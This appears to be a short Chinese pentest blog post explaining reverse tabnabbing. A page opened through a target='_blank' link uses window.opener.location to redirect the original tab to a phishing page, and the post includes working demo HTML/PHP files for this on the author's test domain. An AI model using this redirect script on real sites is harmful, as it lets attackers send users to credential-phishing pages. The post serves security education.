 +++
date = "2016-10-12T10:24:38+08:00"
description = ""
draft = false
tags = ["pentest"]
title = "利用_blank属性钓鱼"
topics = ["Pentest"]

+++

### 0x00 _blank
> _blank是html中的标签属性，如```<a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>```, 但若点击HELLO打开的网页1.php中有如下代码：
```
<script>
if(window.opener){
  window.opener.location  = "http://xss.reber-9.com/fish.html";
}
</script>
```
则原网页将转跳到http://xss.reber-9.com/fish.html ，这就会造成钓鱼

### 0x01 简单模板
* a.html内容如下：

> ```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>
</body>
</html>
```

* ```http://xss.reber-9.com/1.php```中1.php内容如下：

> ```
<html>
<head>
    <title>test</title>
    <script>
        if(window.opener){
            window.opener.location = "http://xss.reber-9.com/fish.html";
        }
    </script>
</head>
<body>
    <p>hello</p>
</body>
</html>
```

* 1.php同级下有个钓鱼模板fish.html，内容如下：

> ```
<html>
<head>
    <title>fish</title>
</head>
<body>
    <h2>This is fishing template!</h2>
</body>
</html>
```

* 点击a.html中的HELLO则会出现下面的情况，也就导致了钓鱼：

> {{% fluid_img src="/img/post/blank.gif" alt="blank钓鱼" %}}